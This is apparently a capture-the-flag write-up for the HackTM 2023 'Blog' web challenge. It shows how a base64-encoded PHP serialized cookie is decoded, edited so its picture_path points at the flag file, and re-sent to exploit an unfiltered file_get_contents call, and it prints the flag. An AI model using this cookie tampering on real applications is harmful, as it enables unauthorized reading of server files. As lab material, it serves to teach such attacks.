



# Blog
> We made a new blogging website for everyone to use! It's pretty basic for now,

> and it has a few limitations like:

> 1. No comments
> 2. Semi-working authentication system
> 3. Lots of random checks slowing down the entire website honestly (i don't know what's going on so i'm not touching it)

> To mitigate that, we made it such that only you can view your own posts. No one
can hack us now >:)

> (im not sure what kind of blog that is tho...)

## About the Challenge
We are given a website and a source code (You can find the source code [here](/2023/HackTM%202023/Blog/dist.zip))



## How to Solve?
First we need to register and login to the website, and you will find dashboard page



After that, check the cookie. You will find a cookie named `user` and the cookies will be like this
```
Tzo0OiJVc2VyIjoyOntzOjc6InByb2ZpbGUiO086NzoiUHJvZmlsZSI6Mjp7czo4OiJ1c2VybmFtZSI7czo1OiJhYWFhYSI7czoxMjoicGljdHVyZV9wYXRoIjtzOjI3OiJpbWFnZXMvcmVhbF9wcm9ncmFtbWVycy5wbmciO31zOjU6InBvc3RzIjthOjA6e319
```

If we decode the cookie using `base64`. We will get this value
```
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:5:"aaaaa";s:12:"picture_path";s:27:"images/real_programmers.png";}s:5:"posts";a:0:{}}
```

Luckily there is a flag path in the `Dockerfile` file. Change the picture_path from `images/real_programmers.png` to `/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt`.

```
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:5:"aaaaa";s:12:"picture_path";s:46:"/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt";}s:5:"posts";a:0:{}}
```

And then encode using `base64` and resend the request. You will retrieve the flag by checking `img` tag. That happen because of the code using `file_get_contents` function without any filter so we can read any files on the server

```php
        if (gettype($this->picture_path) !== "string") {        
            return "<script>window.location = '/login.php'</script>";
        }

        $picture = base64_encode(file_get_contents($this->picture_path));

        // check if user exists
        $conn = new Conn;
        $conn->queries = array(new Query(
            "select id from users where username = :username",
            array(":username" => $this->username)
        ));
```



```
HackTM{r3t__toString_1s_s0_fun_13c573f6}
```